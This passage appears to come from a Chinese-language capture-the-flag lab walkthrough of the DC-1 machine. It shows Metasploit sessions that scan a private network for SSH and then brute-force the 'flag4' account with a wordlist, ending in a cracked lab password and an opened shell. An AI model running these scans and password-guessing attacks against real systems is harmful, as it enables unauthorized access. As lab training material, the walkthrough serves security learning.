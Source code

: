 ```sh
msf6 > search ssh_version
Matching Modules
================
 # Name Disclosure Date Rank Check Description
 - ---- --------------- ---- ----- -----------
 0 auxiliary/fuzzers/ssh/ssh_version_15 normal No SSH 1.5 Version Fuzzer
 1 auxiliary/fuzzers/ssh/ssh_version_2 normal No SSH 2.0 Version Fuzzer
 2 auxiliary/fuzzers/ssh/ssh_version_corrupt normal No SSH Version Corruption
 3 auxiliary/scanner/ssh/ssh_version normal No SSH Version Scanner
 
msf6 > use 3
msf6 auxiliary(scanner/ssh/ssh_version) > set RHOSTS 10.9.69.0/24
RHOSTS => 10.9.69.0/24
msf6 auxiliary(scanner/ssh/ssh_version) > set THREADS 50
THREADS => 50
msf6 auxiliary(scanner/ssh/ssh_version) > show options
Module options (auxiliary/scanner/ssh/ssh_version):
 Name Current Setting Required Description
 ---- --------------- -------- -----------
 RHOSTS 10.9.69.0/24 yes The target host(s), range CIDR identifier, or hosts file with syntax 'file:
<path>'
 RPORT 22 yes The target port (TCP)
 THREADS 50 yes The number of concurrent threads (max one per host)
 TIMEOUT 30 yes Timeout for the SSH probe
msf6 auxiliary(scanner/ssh/ssh_version) > run
```

> 口令猜测
>
> 在确定了网络上的SSH 服务之后，可以使用MSF 中的ssh_login 模块对SSH 服务进行口令猜测攻击，在进行口令攻击之前，需要一个好用的 用户名和口令字典。

```sh
msf6 > search ssh_login
Matching Modules
================
 # Name Disclosure Date Rank Check Description
 - ---- --------------- ---- ----- -----------
 0 auxiliary/scanner/ssh/ssh_login normal No SSH Login Check Scanner
 1 auxiliary/scanner/ssh/ssh_login_pubkey normal No SSH Public Key Login Scanner
Interact with a module by name or index. For example info 1, use 1 or use auxiliary/scanner/ssh/ssh_login_pubkey
msf6 > use 0
msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 10.9.65.178
RHOSTS => 10.9.65.178
msf6 auxiliary(scanner/ssh/ssh_login) > set USERNAME flag4
USERNAME => flag4
msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FiLE /usr/share/john/password.lst
PASS_FiLE => /usr/share/john/password.lst
msf6 auxiliary(scanner/ssh/ssh_login) > set THREADS 40
THREADS => 40
msf6 auxiliary(scanner/ssh/ssh_login) > run
[*] 10.9.65.178:22 - Starting bruteforce
[+] 10.9.65.178:22 - Success: 'flag4:orange' 'uid=1001(flag4) gid=1001(flag4) groups=1001(flag4) Linux DC-1 3.2.0-6-
486 #1 Debian 3.2.102-1 i686 GNU/Linux '
[*] Command shell session 1 opened (10.9.65.228:40151 -> 10.9.65.178:22) at 2021-05-09 22:53:35 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/ssh/ssh_login) >
```
